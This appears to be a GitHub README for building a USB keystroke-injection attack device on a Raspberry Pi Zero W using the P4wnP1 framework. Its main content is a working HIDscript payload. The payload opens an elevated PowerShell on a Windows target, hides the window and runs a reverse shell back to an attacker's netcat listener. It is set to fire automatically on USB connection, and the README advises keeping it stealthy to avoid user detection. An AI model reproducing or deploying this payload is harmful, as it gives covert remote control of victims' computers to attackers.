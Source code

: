 # advanced HID attack device using Raspberry Pi Zero W
![image](https://github.com/ErroujiOussama/Keylogger-with-the-Raspberry-Pi-Zero-W/assets/107694414/a9310674-e5e9-41e0-9cf5-3c75b564e86b)
![image](https://github.com/ErroujiOussama/Keylogger-with-the-Raspberry-Pi-Zero-W/assets/107694414/c78eb71f-efe9-4f49-901c-6d911a84a279)
![image](https://github.com/ErroujiOussama/Keylogger-with-the-Raspberry-Pi-Zero-W/assets/107694414/b14fc106-b1b4-4658-b686-a75b67d7e09f)

## Overview

This project leverages the P4wnP1 A.L.O.A. framework to create an advanced HID (Human Interface Device) attack device using a Raspberry Pi Zero W. Inspired by various HID attack tools such as Rubber Ducky, Bash Bunny from Hak5, and O.MG cables, this device is capable of performing sophisticated attacks with customizable payloads.

## Hardware and Software Requirements

- **Hardware:**
  - Raspberry Pi Zero W
  - USB dongle expansion (e.g., MakerFun USB Expansion Dongle)
  - Sandisk Ultra SDHC card (16 GB recommended)

- **Software:**
  - P4wnP1 A.L.O.A. framework image (Beta version by MaMe82)
  - Balena Etcher (for writing the image to the SD card)

## Installation and Configuration

### Step 1: Writing the Image to the SD Card
1. Download the P4wnP1 image.
2. Use Balena Etcher to write the image to the SD card.

### Step 2: Initial Setup
1. Assemble the Raspberry Pi with the USB expansion dongle.
2. Insert the SD card into the Raspberry Pi and power it on.
3. Connect to the new Wireless Network named `P4wnP1`.
4. Use the default PSK: `MaMe82-P4wnP1`.

### Step 3: Configuration
1. **Web Interface:**
   - Access the configuration dashboard at `http://172.24.0.1:8000/`.
   - Change the Wireless settings (SSID, password) and hide the network.
   - Press `Deploy` to apply changes and `Store` to save settings (e.g., name the configuration `wifi_settings`).

2. **SSH:**
   - Connect via SSH: `ssh root@172.24.0.1` (password: `toor`).
   - Change the default root password using the `passwd` command.
   - Add keymap input if necessary by placing your keymap file in `/usr/local/P4wnP1/keymaps`.

## Creating a Basic Attack Script

### Step 1: Define a Reverse Shell Payload
```javascript
var locale = "pt"; // Define the keymap
var ip = "192.168.1.13"; // Netcat listener IP Address
var port = 9999; // Netcat listener Port

function hide() {
    type("$t = '[DllImport(\"user32.dll\")] public static extern bool ShowWindow(int handle, int state);';add-type -name win -member $t -namespace native;[native.win]::ShowWindow(([System.Diagnostics.Process]::GetCurrentProcess() | Get-Process).MainWindowHandle, 0);");
    press("ENTER");
}

function popshell(ip, port) {
    type("$client = New-Object System.Net.Sockets.TCPClient('" + ip + "'," + port +");$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};\n");
    type("while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;");
    type("$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);");
    type("$sendback = (iex $data 2>&1 | Out-String );");
    type("$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';");
    type("$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);");
    type("$stream.Write($sendbyte,0,$sendbyte.Length);");
    type("$stream.Flush()};");
    type("$client.Close();");
    press("ENTER");
}

// Main script
layout(locale);
typingSpeed(0,0);
press("GUI x");
delay(2000);
press("SHIFT a");
delay(2000)
press("ALT y");
delay(3000);
hide();
delay(2000);
popshell(ip,port);
```

### Step 2: Save and Deploy the Script
1. Copy the script into the Hidscript editor in the P4wnP1 dashboard.
2. Save the script as `reverseshell`.
3. Create a Trigger Action to run the script upon USB connection.
4. Store the configuration as `usb shell`.

### Step 3: Define Master Template
1. Go to the Generic Settings tab.
2. Create a new Master Template combining the Trigger Action (`usb shell`), default USB, Bluetooth, Networks template, and the new Wifi template (`wifi_settings`).
3. Save the template as `custom_master` and set it as the Startup Template.

## Execution
1. Remove the device from the machine and set up a netcat listener on your machine:
   ```bash
   nc -lvp 9999
   ```
2. Insert the HID attack device into the target machine.
3. A remote shell should appear on your terminal.

## Considerations
- Adjust delays in the script based on the target machine's speed.
- Ensure the script runs stealthily to avoid user detection.

## References
- [P4wnP1 A.L.O.A. Documentation](https://github.com/mame82/P4wnP1_aloa)
- [Balena Etcher](https://www.balena.io/etcher/)
